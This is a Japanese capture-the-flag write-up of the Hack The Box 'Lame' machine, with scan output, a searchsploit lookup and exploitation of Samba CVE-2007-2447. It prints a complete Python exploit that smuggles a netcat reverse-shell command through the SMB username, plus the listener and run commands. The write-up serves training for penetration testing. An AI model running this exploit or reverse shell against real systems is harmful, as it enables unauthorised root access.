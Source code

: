 # Lame

* サーバー接続確認

```bash
ping 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=677 ms
64 bytes from 10.10.10.3: icmp_seq=2 ttl=63 time=189 ms
```

* nmapコマンド実行

```bash
$ nmap -Pn 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-05 15:01 JST
Nmap scan report for 10.10.10.3
Host is up (0.19s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

* -Pnオプション：　Treate all hosts as online

* ftpでanonymousログインしてみる(パスワードなし)

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ ftp 10.10.10.3                                                          
  Connected to 10.10.10.3.
  220 (vsFTPd 2.3.4)
  Name (10.10.10.3:kali): anonymous
  331 Please specify the password.
  Password: 
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  
  ```

​		→ログイン成功

* sshコマンド(root)

  ```bash
  ssh root@10.10.10.3
  Unable to negotiate with 10.10.10.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
  ```

* 公開鍵をftpで送付したい

  →わからずここでwriteupへ（結局fptはanonymousでログインできるもののftpサーバーのカレントディレクトリに何もなくかつディレクトリ移動もできないため脆弱性がなかった）

以降Writeupに従って実施

* [参考サイト-metasploit使っている](https://infosecwriteups.com/htb-lame-writeup-e47100aea88b)

* [参考サイト-metasploit使っていない](https://medium.com/@nmappn/lame-hack-the-box-without-metasploit-1b3a138f9206)

* nmap実施

  ```bash
  sudo nmap -sC -sV -p-  10.10.10.3 
  
  Not shown: 996 filtered tcp ports (no-response)
  PORT     STATE SERVICE     VERSION
  21/tcp   open  ftp         vsftpd 2.3.4
  |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to 10.10.14.5
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      vsFTPd 2.3.4 - secure, fast, stable
  |_End of status
  22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  | ssh-hostkey: 
  |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
  |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
  139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  
  Host script results:
  | smb-security-mode: 
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)
  | smb-os-discovery: 
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name: 
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2022-07-05T05:19:17-04:00
  |_clock-skew: mean: 1h58m17s, deviation: 2h49m43s, median: -1m43s
  
  
  
  ```
  
  * -sCオプション：--script=defaultと同様のオプション。defaultはNSEスクリプトを選択せずに行うスキャン
  * -sVオプション：サービスバージョンスキャン
  * -p-オプション：1024以降のポートも検索する

* Sambaの脆弱性確認

  ```
  searchsploit Samba 3.0.20
  ----------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                          |  Path
  ------------------------------------------------------------------------ ---------------------------------
  Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                  | multiple/remote/10095.txt
  Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Me | unix/remote/16320.rb
  Samba < 3.0.20 - Remote Heap Overflow                                   | linux/remote/7701.txt
  Samba < 3.0.20 - Remote Heap Overflow                                   | linux/remote/7701.txt
  Samba < 3.6.2 (x86) - Denial of Service (PoC)                           | linux_x86/dos/36741.py
  ------------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  
  ```

  * Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution とはどのような脆弱性か
    * [参考サイト](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
    * CVE-2007-2447
    * リモートコマンドインジェクション
    * ユーザネームにshell meta charactersを含む場合、任意のコマンドを実行できてしまう脆弱性

* pythonコードがあるので実行を試す

  * [サンプルコード](https://github.com/amriunix/CVE-2007-2447)

  * ディレクトリの作成

    ```bash
    mkdir Documents/HTB
    mkdir Documents/HTB/Lame
    ```

  * pyenvのインストール（説明は割愛）

    ```bash
    ┌──(kali㉿kali)-[/home]
    └─$ pyenv -v                                                                                              
    pyenv 2.3.2-1-g207f33fc
    
    ┌──(kali㉿kali)-[~/Documents/HTB/Lame]
    └─$ pyenv local 3.8.5                                                                
    
    ┌──(kali㉿kali)-[~/Documents/HTB/Lame]
    └─$ pyenv versions                                                                   
      system
    * 3.8.5 (set by /home/kali/Documents/HTB/Lame/.python-version)
    ```

  * pypoetryのインストール（説明は割愛）

    ```bash
    ┌──(kali㉿kali)-[~/Documents/HTB/Lame]
    └─$ poetry init
    └─$ poetry add pysmb
    ```
  
  * pythonコードのclone
  
    ```bash
    git clone https://github.com/amriunix/CVE-2007-2447.git 
    poetry shell 
    cd CVE-2007-2447/
    
    ```
  
  * usermap_script.py
  
    ```python
    import sys
    from smb.SMBConnection import SMBConnection
    
    def exploit(rhost, rport, lhost, lport):
            payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
            username = "/=`nohup " + payload + "`"
            conn = SMBConnection(username, "", "", "")
            try:
                conn.connect(rhost, int(rport), timeout=1)
            except:
                print("[+] Payload was sent - check netcat !")
    
    if __name__ == '__main__':
        print("[*] CVE-2007-2447 - Samba usermap script")
        if len(sys.argv) != 5:
            print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
        else:
            print("[+] Connecting !")
            rhost = sys.argv[1]
            rport = sys.argv[2]
            lhost = sys.argv[3]
            lport = sys.argv[4]
            exploit(rhost, rport, lhost, lport)
    ```
  
    * mkfifoコマンド：[名前付きパイプ](https://qiita.com/richmikan@github/items/bb660a58690ac01ec295)
    * nc lhost lport /bin/sh をしている

* usermap_script.pyでLHOSTに対してリバースシェルを実行している。

  * タブ1つ目

    ```bash
    # 4444ポートで待ち受けを実施する
    nc -lvp 4444
    ```

  * タブ2つ目

    ```bash
    ┌──(lame-pB_69G5l-py3.8)(kali㉿kali)-[~/Documents/HTB/Lame/CVE-2007-2447]
    └─$ python usermap_script.py 10.10.10.3 139 10.10.14.5 4444        
    [*] CVE-2007-2447 - Samba usermap script
    [+] Connecting !
    [+] Payload was sent - check netcat !
    
    ```

    これでroot.txtとuser.txtの取得ができる。rootでのリバースシェルだったため。

## 所感

* nmapは、適切にオプションを付けて実行すること。-sVと-p-はつけるようにしたい。

* sploitsearchは、OSCPでも禁止されていなさそうなので積極的に使っていきたい。まずは脆弱性を見つけられるかどうか。そこが大事なポイントだと感じた。

* metasploitを使わずにPoCをインストールして実行できたのが良かった。pythonだったからという点が多分にあるので、その他言語でもPoC実行できるように環境構築手順をまとめておきたい。

  
